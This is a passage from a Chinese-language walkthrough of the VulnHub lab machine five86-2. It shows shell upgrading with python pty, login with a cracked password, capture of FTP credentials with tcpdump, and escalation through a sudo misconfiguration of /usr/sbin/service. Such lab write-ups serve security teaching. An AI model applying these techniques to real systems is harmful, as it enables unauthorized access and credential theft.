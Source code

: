 ```
python -c 'import pty; pty.spawn("/bin/bash")' # 有些没有安装Python2，所以需要换成python3 -c
```

切换到`/home`目录下发现了我们之前爆破出来的账户：

![][18]

我们登录其中一个：`stephen: apollo1`，查看定时任务和`sudo -l`权限：

![][19]

无果，`id`查看组发现有一个`pcap`组

![][20]

`ip add`查看网卡发现有一个网络接口比较奇怪：

![][21]

`pcap`是和网络流量相关的，那我们使用流量工具`tcpdump`抓下包：

```
timeout 120 tcpdump -w soap.pcap -i vethb26451b
timeout 120：是用来控制 tcpdump 的超时时间为 120s
tcpdump -w 保存为文件，-i指定监听的网络接口
```

需要到根目录下执行，2 分钟后便会停止：

![][22]

然后我们再用`tcpdump`打开文件看一下：

```
tcpdump -r soap.pcap |more
```

![][23]

在包中发现了`ftp`账户的账号和密码：`paul:esomepasswford`，尝试切换过去

## 0x04 sudo 提权 root

切换过后习惯性`sudo -l`查看可执行的`sudo`命令：

![][24]

用`sudo`来以`peter`用户去运行`/usr/sbin/service`，并切换到`/bin/bash`

这个时候就成功切换到`peter`用户：

```
sudo -u peter /usr/sbin/service ../../bin/bash
```

![][25]


[1]: https://www.vulnhub.com/entry/five86-2,418/
[2]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_095716.png
[3]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_100229.png
[4]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_101240.png
[5]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_101839.png
[6]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_102125.png
[7]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_103643.png
[8]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_103157.png
[9]: https://www.exploit-db.com/
[10]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_103920.png
[11]: https://youtu.be/knst26fEGCw?t=44
[12]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_105145.png
[13]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_140110.png
[14]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_140334.png
[15]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_140925.png
[16]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_140956.png
[17]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_142334.png
[18]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_142738.png
[19]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_143212.png
[20]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_143404.png
[21]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_143757.png
[22]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_144656.png
[23]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150009.png
[24]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150242.png
[25]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150429.png
[26]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150524.png
[27]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150948.png
[28]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150831.png
[29]: https://mp.weixin.qq.com/s/V2V03UKaQgQaq3oXcZGvmQ
[30]: https://www.hacknos.com/five86-2-walkthrough-vulnhub-ctf/